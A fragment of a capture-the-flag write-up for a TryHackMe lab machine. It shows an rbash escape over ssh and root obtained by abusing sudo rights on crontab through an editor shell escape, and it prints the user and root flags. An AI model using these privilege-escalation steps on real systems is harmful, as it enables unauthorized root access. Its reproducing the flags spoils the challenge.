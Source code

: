 I ssh'd into as jeff. But I have rbash. Whatt!! Ok The I su'd in the prev. rev shell as jeff and cat the contents of user flag.

# user.txt

```
THM{HashMeLikeOneOfYourFrenchGirls}
THM{e122d5588956ef9ba7d4d2b2fee00cac}
```

We can use `ssh jeff@jeff.thm -t "bash --noprofile"` to come out of rbash.

# Priv. Esc

sudo -l

```bash
User jeff may run the following commands on tryharder:
    (ALL) /usr/bin/crontab
```

# GTFO

```bash
sudo /usr/bin/crontab -e
:!/bin/bash
```

And we are root!

# root.txt

```
THM{40fc54e5c0f5747dfdd35e0cc7db6ee2}
```
